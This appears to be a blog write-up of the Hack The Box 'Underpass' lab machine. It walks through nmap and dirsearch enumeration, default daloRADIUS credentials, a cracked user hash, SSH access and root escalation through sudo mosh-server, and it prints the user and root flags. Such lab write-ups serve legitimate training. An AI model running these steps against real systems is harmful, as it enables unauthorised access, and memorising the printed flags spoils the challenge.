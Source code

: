 ```yaml
---
layout: post
title: "Hack The Box: Underpass"
date: 2025-05-23
categories: [HackTheBox, Writeup]
tags: [Linux, easy, daloradius, mosh, privilege-escalation]
permalink: /posts/Underpass/
toc: true
---
```



![Description](/assets/images/UnderPass/image%20(1).png)

**UnderPass** is an **easy-difficulty machine** from Hack The Box that starts with an
exposed **Daloradius** instance, accessible using **default credentials**. Inside the
application, we discover a password **hash** which we successfully crack. The
recovered credentials allow SSH access to the target machine. Once on the box, we
find that we can launch a **mosh server** with root privileges, which we exploit to
escalate our privileges and ultimately gain **root access**.



##  Enumeration
### nmap scan
### We begin with an Nmap scan:

```bash
$ nmap -A -Pn 10.10.11.48

Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-01 10:17 W. Central Africa Standard Time
Nmap scan report for 10.10.11.48
Host is up (0.47s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_ 256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open http Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.77 seconds
```

**Open Ports:**
- **22/tcp** – SSH 
- **80/tcp** – HTTP

 Trying to access the website, it looks like we have a default apache page

![Description](/assets/images/UnderPass/image%20(2).png)
### Daloradius web application
### Using `dirsearch`, we discovered a hidden web directory at `/daloradius/`, which is commonly associated with the DaloRadius web interface:

```bash
$ dirsearch -u "http://underpass.htb/daloradius/" -t 50

|. _ _ _ _ _ | v0.4.3
(
||| ) (/(|| (| )
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist
size: 11460
Output File: /home/kali/UnderPass/reports/http_underpass.htb/_daloradius__24-1222_12-58-34.txt
Target: http://underpass.htb/
[12:58:34] Starting: daloradius/
[12:58:39] 200 - 221B - /daloradius/.gitignore
[12:58:47] 301 - 323B - /daloradius/app -> http://underpass.htb/daloradius/app/
[12:58:49] 200 - 24KB - /daloradius/ChangeLog
[12:58:51] 301 - 323B - /daloradius/doc -> http://underpass.htb/daloradius/doc/
[12:58:51] 200 - 2KB - /daloradius/docker-compose.yml
[12:58:51] 200 - 2KB - /daloradius/Dockerfile
[12:58:57] 301 - 327B - /daloradius/library ->
http://underpass.htb/daloradius/library/
[12:58:57] 200 - 18KB - /daloradius/LICENSE
[12:59:04] 200 - 10KB - /daloradius/README.md
[12:59:05] 301 - 325B - /daloradius/setup ->
http://underpass.htb/daloradius/setup/
Task Completed
```



##  Exploitation
### initial foothold
While researching daloradius online, I identified a commonly used login path at /daloradius/operators/login.php. Accessing this path revealed a login panel for the daloradius web interface.

![Description](/assets/images/UnderPass/image%20(3).png)
### 1. **Accessing DaloRadius**
We navigate to `/daloradius/operators/login.php` and log in with default credentials:

- **Username:** administrator  
- **Password:** radius

![Description](/assets/images/UnderPass/image%20(4).png)
### 2. **Retrieving User Hash**
Inside DaloRadius, we find a user `svcMosh` with the following hash:

```
412DD4759978ACFCC81DEAB01B382403
```
![Description](/assets/images/UnderPass/image%20(5).png)

Using [crackstation.net](https://crackstation.net), we crack the hash:

- **Password:** underwaterfriends

### 3. **Gaining SSH Access**
We SSH into the box:

```bash
ssh svcMosh@underpass.htb
# Password: underwaterfriends
```

And retrieve the user flag:

```bash
cat ~/user.txt
# -> bbfc40fc1389516f00b23bcb62c85872
```



###  Privilege Escalation

Checking `sudo` privileges:

```bash
sudo -l
```

We find:

```bash
Matching Defaults entries for svcMosh on localhost:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty
User svcMosh may run the following commands on localhost:
(ALL) NOPASSWD: /usr/bin/mosh-server

```

This means the user `svcMosh` can run the `mosh-server` command as root without needing to type a password.


1. On the victim machine:

```bash
$ sudo /usr/bin/mosh-server

MOSH CONNECT 60001 N7vPqLt4KrX9DfYmHsUw3A
mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein
mosh-devel@mit.edu
License GPLv3+: GNU GPL version 3 or later
http://gnu.org/licenses/gpl.html.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
[mosh-server detached, pid = 3100]
```

2. On the attacker machine:

```bash
$ MOSH_KEY=N7vPqLt4KrX9DfYmHsUw3A mosh-client <ip> 60001

Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)
Documentation: https://help.ubuntu.com
Management: https://landscape.canonical.com
Support: https://ubuntu.com/pro
System information as of Tue Dec 24 03:25:41 PM UTC 2024
System load: 0.0 Processes: 227
Usage of /: 89.0% of 3.75GB Users logged in: 0
Memory usage: 10% IPv4 address for eth0: 10.129.243.71
Swap usage: 0%
=> / is using 89.0% of 3.75GB
Expanded Security Maintenance for Applications is not enabled.
0 updates can be applied immediately.
Enable ESM Apps to receive additional future security updates.
See
https://ubuntu.com/esm or run: sudo pro status
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
#
```

You're now root:

```bash
id
# uid=0(root) gid=0(root)

cat /root/root.txt
# -> 95bfbcdd99b59de1bead0d706a1c6774
```



##  Summary

-  Enumerated daloradius on web server
-  Used default credentials
-  Cracked hash to gain SSH access
-  Escalated privileges via `mosh-server`

Pwned! 🎉


